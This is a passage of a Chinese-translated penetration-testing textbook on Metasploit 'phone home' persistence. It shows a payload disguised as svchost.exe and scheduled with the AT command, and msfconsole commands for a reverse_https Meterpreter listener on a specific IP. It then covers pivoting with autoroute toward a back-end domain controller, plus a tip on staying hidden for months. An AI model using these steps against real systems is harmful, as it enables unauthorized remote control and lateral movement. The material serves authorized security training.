 下面的图像显示了命令的输出。Msfvenom 显示没有使用编码器，并且没有检查构建中实现的坏字符。对于本演示，不需要它们：

现在，通过运行`ls`命令，我们可以看到我们的文件：

![Phoning Home with Metasploit](../Images/image00933.jpeg)

现在我们有东西要上传。就像 Ncat 示例一样，我们将使用系统的内部妥协上传我们的漏洞：

![Phoning Home with Metasploit](../Images/image00934.jpeg)

与 Ncat 一样，我们将进入受害者机器并设置`AT`命令以运行`svchost13.exe`：

```
shell
AT 5:25PM c:\windows\svchost.exe
exit
Just before 5:25 PM, log into the evil server //rogue3\. Fire up the Metasploit service msfconsole to get your listener set up and running to accept the connection. Then, set up the common handler module using the following commands.
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 128.199.190.69
set LPORT 443
exploit

```

运行该漏洞攻击后，处理程序将开始监听端口`443`上的连接，等待无助的受害者呼叫总部。等了一会儿，我们看到一个连接从`69.131.155.226`出现。这是我们的受害者机器后面的防火墙地址。然后，处理程序向系统提供一个命令提示符。运行 meterpeter 命令`sysinfo`，我们可以看到名称和机器信息。从这里你可以完全控制。

### 提示

真正的攻击者可能会利用此漏洞进行攻击，并且在数月内不会回来。问题的唯一迹象就是每天下午 5:25 一个连接断开并出现故障。只是网络上的一个小插曲。

![Phoning Home with Metasploit](../Images/image00935.jpeg)

你可能会对下一次征服感到兴奋，但由于我们在网络防火墙后面的机器上，让我们看看网络的其余部分。通过运行`ipconfig`，我们看到这台机器上有两个网络接口：一个在`10-network`上，在`10.100.0.0/24`上，另一个在`192.168.202.0`的`192.168-network`上。这些都是受保护的网络，但重要的是网络不是平坦的。您不能在专用范围内的两个不同网络类之间路由数据包。`10-network`可以接入互联网，因此它可能是一个 DMZ，而且上面的机器可能更坚固，并且包含的数据价值更低。这可能意味着另一个网络上的数据中有一些宝藏。这种类型的枢轴可以连接到任何一个网络，但让我们在这里攻击后端网络：

![Phoning Home with Metasploit](../Images/image00936.jpeg)

红色标记的路径是我们将从持久连接中获取的枢轴路径，用于攻击后端网络上的域控制器。

一天中的这个时候到了，我们在邪恶的服务器上启动了我们的侦听器，受害者的机器打电话回家。我们准备更进一步。我们将使用`meterpreter`命令`autoroute`获取进入`192.168.202.0/24`网络的路由。

这次当我们设置处理程序时，我们将在运行剥削命令时使用`-j`标志将会话发送到后台：

![Phoning Home with Metasploit](../Images/image00937.jpeg)

然后受害者的机器呼叫进来。这告诉我们目标网络中的防火墙没有被调整为阻止出站包流，并且异常行为没有向他们的**入侵检测系统**（**IDS**发出警报。我们有一个联系：

![Phoning Home with Metasploit](../Images/image00938.jpeg)

